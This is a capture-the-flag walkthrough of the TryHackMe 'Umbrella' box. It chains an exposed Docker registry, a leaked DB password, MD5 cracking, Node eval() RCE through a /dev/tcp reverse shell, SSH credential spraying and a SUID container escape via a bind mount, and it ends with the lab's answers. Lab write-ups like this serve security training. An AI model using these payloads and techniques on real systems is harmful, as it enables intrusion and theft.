# TryHackMe – Umbrella

**Category:** Boot2Root · **Difficulty:** Medium

**Tags:** `docker-registry` `credential-reuse` `nodejs` `eval-rce` `container-escape` `bind-mount`

Umbrella Corp has been developing a time-tracking application. This one isn't a single bug — it's a chain: an exposed Docker registry leaks the app image, the image leaks the DB password, the database hands over crackable user hashes, the app itself runs `eval()` on user input, and a root container with a host bind-mount turns a foothold into full root.

---

## Recon

Full port and service scan of the target.

```bash
nmap -sC -sV -p- -T4 -oN umbrella.txt 10.114.190.83
```



Four services: SSH (22), MySQL 5.7 (3306), a Docker Registry (5000), and a Node.js/Express app titled "Login" (8080).

---

## Enumerating the Docker Registry

An exposed registry will usually let you list what images it's hosting, so I queried the catalog.

```bash
curl -s http://10.114.190.83:5000/v2/_catalog
```



One repository: `umbrella/timetracking` — that's the app's own image, which means we can pull it and read the source and config.

Grabbed the image tags and manifest to find the config blob and layers.

```bash
curl -s http://10.114.190.83:5000/v2/umbrella/timetracking/manifests/latest
```



The manifest gives us the config blob digest, where Docker stores the image's environment variables.

---

## DB Password from the Image Config

Pulled the config blob and grepped it for anything secret-looking.

```bash
curl -s http://10.114.190.83:5000/v2/umbrella/timetracking/blobs/sha256:7843f10...a286 -o config.json
cat config.json | python3 -m json.tool | grep -iE "pass|db_|env"
```



The DB password was baked straight into the image `ENV`: **`DB_PASS=Ng1-f3!Pe7-e5?Nf3xe5`** (also `DB_USER=root`, `DB_DATABASE=timetracking`). That answers the first question.

---

## Database Access

MySQL is exposed on 3306, so I connected with the recovered password and dumped the users table.

```bash
mysql -h 10.114.190.83 -u root -p'Ng1-f3!Pe7-e5?Nf3xe5' --skip-ssl timetracking -e "select * from users;"
```



Four users, each with a 32-character MD5 password hash.

---

## Cracking the Hashes

Saved the four hashes and threw rockyou at them with John.

```bash
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```



All four fell instantly: `Password1`, `letmein`, `sunshine1`, `sandwich`.

Mapped each cracked password back to its user by re-hashing.



Final pairs: `claire-r:Password1`, `chris-r:letmein`, `jill-v:sunshine1`, `barry-b:sandwich`.

---

## The Web App

Browsed to the app on 8080 — a simple login page.



Logged in as `barry-b:sandwich` and landed on the time-tracking dashboard.



The "Increase time spent" panel has a telling hint: *"Pro Tip: You can also use mathematical expressions, e.g. 5+4."* Submitting `5+4` bumps the time by 9 minutes, so the input is being evaluated server-side — a classic sign of `eval()`.

---

## RCE via eval()

A blocking reverse-shell payload hung the single-threaded Node process, so I used a detached spawn that returns immediately. Started a listener and submitted the payload in the time field.

```bash
nc -lvnp 4444
```

```js
global.process.mainModule.require('child_process').spawn('bash',['-c','bash -i >& /dev/tcp/192.168.152.228/4444 0>&1'],{detached:true,stdio:'ignore'}).unref()
```



Shell landed as **root but inside a container** (`root@de0610f51845`), not the host.

Confirmed the root cause in the source once I was in.

```bash
sed -n '68,74p' /usr/src/app/app.js
```



The `/time` route runs `parseInt(eval(request.body.time))` — user input straight into `eval()`.

---

## Foothold on the Host

The container passwords weren't reused for SSH as-is, so I sprayed each cracked credential against the host's SSH.

```bash
sshpass -p 'Password1' ssh claire-r@10.114.190.83 id
```

Only **claire-r:Password1** worked. Logged in and grabbed the user flag from her home directory.

```bash
ls -la
cat user.txt
```



**User flag captured.**

---

## Privilege Escalation — Container Escape via Bind Mount

`sudo -l` was denied and SUID/cron were clean, but claire-r's home had a `timeTracker-src` directory. Its `docker-compose.yml` showed the app container mounts `./logs` from the host and runs as root — and the `logs` directory is owned and writable by claire-r. Since the container runs as root and writes persist to the host through the bind mount, I could plant a root-owned SUID bash from inside the container.

Back in the container root shell, copied bash into the mounted directory and set the SUID bit.

```bash
cp /bin/bash /logs/root_shell
chmod 4755 /logs/root_shell
```



The binary is now `root:root` with the SUID bit set, sitting in the shared mount.

On the host as claire-r, that same file appears in `~/timeTracker-src/logs`, so I ran it with `-p` to keep the elevated privileges.

```bash
cd ~/timeTracker-src/logs
./root_shell -p
id
```



`euid=0(root)` — a SUID binary runs with the owner's effective UID, so we now have root.

---

## Root Flag

```bash
cat /root/root.txt
```



**Root flag captured.** 

---


## Answers

- **DB password:** `Ng1-f3!Pe7-e5?Nf3xe5`
- **User flag:** captured from `/home/claire-r/user.txt`
- **Root flag:** captured from `/root/root.txt`
